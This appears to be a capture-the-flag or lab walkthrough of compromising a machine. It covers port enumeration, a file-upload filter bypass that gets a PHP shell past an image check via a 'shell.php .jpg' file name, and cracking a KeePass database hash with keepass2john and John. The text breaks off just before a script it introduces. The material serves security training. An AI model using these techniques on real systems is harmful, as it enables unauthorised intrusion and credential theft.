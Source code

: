 
Open Ports

22 OpenSSH 8.2p1

80 Apache httpd 2.4.41

139 Samba smbd 4.6.2

445 Samba smbd 4.6.2

Enumeration

When we access the webserver we are provided with a login screen

Feroxbuster finds a cloud directory

It's an image upload website that of course accepts only image files

But it's possible to bypass this restriction by adding a space after the extension of the file that you want to upload

If you want to upload a shell.php just put shell.php .jpg and the file will upload successfully

Privilege escalation

In the opt directory there is a dataset.kdbx file

It's a Keepass password database

We can extract the hash:

keepass2john dataset.kdbx > forjohn.txt

And crack it with John:

john --wordlist=/usr/share/wordlists/rockyou.txt forjohn.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED        (dataset)     
1g 0:00:00:06 DONE (2023-04-07 22:41) 0.1485g/s 133.1p/s 133.1c/s 133.1C/s chichi..ilovegod
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

Now we can open the database and we will find the password for the user sysadmin

We now have access to the scripts directory

This is the script.php file:
